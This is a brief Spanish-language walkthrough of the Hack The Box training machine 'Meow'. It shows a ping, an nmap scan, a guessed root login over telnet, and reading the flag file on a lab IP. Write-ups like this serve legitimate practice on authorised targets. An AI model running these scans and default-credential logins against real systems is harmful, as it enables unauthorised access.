





# Meow
[](README.md) [](README.es.md)

## Dificultad: Muy Fácil



Empiezo con un ping:

```
ping -c 1 10.129.129.152
```



Hago un escaneo rápido con nmap y lo guardo en un txt:

```
sudo nmap -sS -sV -sC -T4 -O 10.129.129.152 -oN nmap.txt
```



Pruebo a logearme con telnet directamente como root. Es una máquina very easy al fin y al cabo, igual funciona.

```
telnet 10.129.129.152
```



Ha sido muy fácil, por algo es la máquina introductoria a Hack The Box, ahora simplemente hay que buscar la flag.

```
ls
cat flag.txt
```



Resuelta.